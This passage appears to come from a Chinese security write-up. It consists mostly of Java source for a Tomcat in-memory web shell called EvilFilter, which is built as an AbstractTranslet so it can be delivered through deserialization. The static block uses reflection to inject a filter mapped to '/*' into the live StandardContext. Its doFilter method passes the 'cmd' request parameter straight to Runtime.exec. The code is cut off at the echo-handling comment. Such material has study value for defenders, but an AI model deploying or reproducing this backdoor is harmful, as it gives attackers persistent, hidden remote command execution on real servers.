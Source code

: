 内存马的话就随便找一个能用就行，这里以 filter 内存马为例，事实上其他的也可以 interceptor 等等。

```plain
public class EvilFilter extends AbstractTranslet implements Filter{

    static {
        try {
            //StandardContext
            System.out.println("StandardContext");
            WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            StandardContext context = (StandardContext) webappClassLoaderBase.getResources().getContext();
            //FilterDef
            Filter filter = new EvilFilter();
            FilterDef filterDef = new FilterDef();
            filterDef.setFilter(filter);
            filterDef.setFilterName("EvilFilter");
            filterDef.setFilterClass(filter.getClass().getName());
            context.addFilterDef(filterDef);
            System.out.println("FilterDef");
            //FilterConfig
            Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
            constructor.setAccessible(true);
            ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(context, filterDef);
            Field field1 = StandardContext.class.getDeclaredField("filterConfigs");
            field1.setAccessible(true);
            Map filterConfigs = (Map)field1.get(context);
            filterConfigs.put("EvilFilter", filterConfig);
            System.out.println("FilterConfig");
            //FilterMap
            FilterMap filterMap = new FilterMap();
            filterMap.setFilterName("EvilFilter");
            filterMap.addURLPattern("/*");
            filterMap.setDispatcher(DispatcherType.REQUEST.name());
            context.addFilterMap(filterMap);
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws ServletException, IOException {
        String cmd = servletRequest.getParameter("cmd");
        Runtime.getRuntime().exec(cmd);
            //回显处理
```